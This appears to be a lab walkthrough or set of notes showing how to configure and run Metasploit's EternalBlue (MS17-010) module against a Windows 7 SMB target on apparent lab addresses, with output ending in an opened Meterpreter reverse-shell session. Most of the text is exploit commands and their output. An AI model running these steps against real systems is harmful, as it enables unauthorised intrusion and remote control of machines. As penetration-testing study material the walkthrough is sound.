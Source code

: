 
## Parameters Summary

| Module        | Parameter | Description                               |
|---------------|-----------|-------------------------------------------|
| Exploit       | RHOSTS    | Target IP address                         |
| Exploit       | RPORT     | Target port (usually 445 for SMB)         |
| Payload       | LHOST     | Attacker IP address (local interface)     |
| Payload       | LPORT     | Listening port (ensure it's available)    |

---

# Metasploit - Exploit and Payload Configuration

## Setting LHOST and RHOSTS

```shell
msf6 exploit(windows/smb/ms17_010_eternalblue) > ifconfig
[*] exec: ifconfig
tun0: flags=4305<UP,POINTOPOINT,RUNNING,NOARP,MULTICAST> mtu 1500
inet 10.10.14.15 netmask 255.255.254.0 destination 10.10.14.15
```

```shell
msf6 exploit(windows/smb/ms17_010_eternalblue) > set LHOST 10.10.14.15
LHOST => 10.10.14.15

msf6 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS 10.10.10.40
RHOSTS => 10.10.10.40
```

## Running the Exploit

```shell
msf6 exploit(windows/smb/ms17_010_eternalblue) > run
[*] Started reverse TCP handler on 10.10.14.15:4444
[*] 10.10.10.40:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.10.40:445 - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional
[*] 10.10.10.40:445 - Connecting to target for exploitation.
[+] 10.10.10.40:445 - Connection established for exploitation.
[+] 10.10.10.40:445 - Target OS and arch selected based on SMB reply.
...
[+] 10.10.10.40:445 - ETERNALBLUE overwrite completed successfully!
[*] Sending stage (201283 bytes) to 10.10.10.40
[*] Meterpreter session 1 opened (10.10.14.15:4444 -> 10.10.10.40:49158)
```

## Meterpreter Commands
